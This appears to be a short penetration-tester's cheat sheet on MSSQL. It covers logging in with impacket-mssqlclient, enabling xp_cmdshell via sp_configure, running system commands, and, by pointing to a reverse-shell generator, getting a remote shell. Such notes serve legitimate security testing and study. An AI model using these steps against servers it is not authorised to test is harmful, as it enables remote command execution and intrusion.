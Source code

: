 # MsSQL

## Impacket mssqlclient.py
On Kali it is installed as `impacket-mssqlclient`
I used it after obtaining credentials another way
```
impacket-mssqlclient [[domain/]username[:password]@]<targetName or address> -windows-auth

# In case of this error
# [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication.

impacket-mssqlclient username@<targetName or address>
```


After authenticating
```
enable_xp_cmdshell
RECONFIGURE
xp_cmdshell <command to execute>

# Simple reverse shell
# https://www.revshells.com/
# PowerShell #3 (Base64)
```
In case of errors like
```
ERROR(DC01\SQLEXPRESS): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```
More advanced way to turn on xp_cmdshell
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

